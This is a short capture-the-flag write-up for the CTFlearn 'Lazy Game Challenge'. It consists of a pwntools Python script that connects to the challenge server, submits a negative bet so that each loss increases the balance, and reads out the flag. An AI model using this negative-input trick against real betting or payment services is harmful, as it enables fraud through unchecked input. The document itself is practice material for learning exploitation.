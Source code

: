 # [Lazy Game Challenge](https://ctflearn.com/challenge/691)

Python Script:

```python
from pwn import *

conn = remote("thekidofarcrania.com", 10001)

conn.recvuntil(b"Are you ready? Y/N :")

conn.sendline(b"Y")
conn.sendline(b"-1000000")  # 500 - (-1000000) = 1000500 (subtraction on losing)
conn.recvuntil(b"The Game is On, Good Luck !..")

guesses = b"11\n" * 10  # Lose 10 times
conn.send(guesses)
    
while True:
    data = conn.recvline().decode()
    if "flag" in data:
        print(data)
        break    
```
